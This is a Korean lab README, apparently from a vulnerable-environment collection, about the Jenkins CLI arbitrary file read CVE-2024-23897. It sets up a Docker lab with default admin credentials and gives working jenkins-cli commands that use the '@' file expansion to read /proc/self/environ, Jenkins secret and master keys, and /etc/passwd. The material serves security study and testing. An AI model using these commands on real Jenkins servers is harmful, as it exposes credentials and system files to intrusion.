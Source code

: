 # CLI를 통한 Jenkins 임의 파일 읽기(CVE-2024-23897)

[중국어버전(Chinese version)](README.zh-cn.md)

Jenkins는 오픈소스 자동화 서버입니다.

Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 구문 분석합니다. 이 명령 구문 분석기는 인수의 @ 문자 뒤에 오는 파일 경로를 파일 내용으로 대체하는 기능(expandAtFiles)을 가지고 있으며, 이를 통해 공격자는 Jenkins 서버에서 임의 파일을 읽을 수 있습니다.

이 취약점은 Jenkins 2.441 이전 버전에 영향을 미칩니다.


참고:

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 취약점 발생 환경

Jenkins 서버 2.441을 시작하려면 다음 명령을 실행하세요.

```
docker compose up -d
```

서버가 시작된 후 `http://your-ip:8080/` 을 통해 Jenkins 서버에 액세스할 수 있습니다. 기본 관리자의 사용자 이름과 비밀번호는 `admin`과 `vulhub` 입니다.


## 취약점 공격(익스플로잇)

먼저 `http://localhost:8080/jnlpJars/jenkins-cli.jar` 을 통해 명령줄 클라이언트 `jenkins-cli.jar` 를 다운로드해야 합니다.

`/proc/self/environ` 파일을 읽어 Jenkins 기본 디렉터리인 `JENKINS_HOME=/var/jenkins_home` 을 가져옵니다.

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

![](1.png)


이 명령을 사용하면 `secrets.key` 또는 `master.key` 와 같은 민감한 파일을 익명으로 검색할 수 있습니다(명령줄에서 오류가 발생하면 파일의 첫 번째 줄만 읽을 수 있습니다).

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

![](2.png)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

![](3.png)

"익명 읽기 액세스 허용"이 켜져 있으므로 전체 콘텐츠도 읽을 수 있습니다. 파일:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

![](4.png)
